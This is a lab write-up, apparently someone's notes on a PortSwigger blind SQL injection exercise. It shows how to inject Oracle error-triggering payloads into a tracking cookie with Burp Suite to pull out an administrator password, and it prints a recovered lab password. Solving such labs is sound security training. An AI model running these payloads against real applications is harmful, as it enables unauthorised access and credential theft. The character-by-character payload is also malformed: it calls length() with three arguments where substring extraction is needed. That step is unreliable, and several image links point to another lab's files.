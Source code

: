 # Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![](img/2.png)

Here is my cookie: `ZDhTYBxTuioKS1t5`. We have hint: `This lab uses an Oracle database.`

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

![](..//Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/5.png)

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/7.png)

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/4.png)

![](img/1.png)

After an hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)
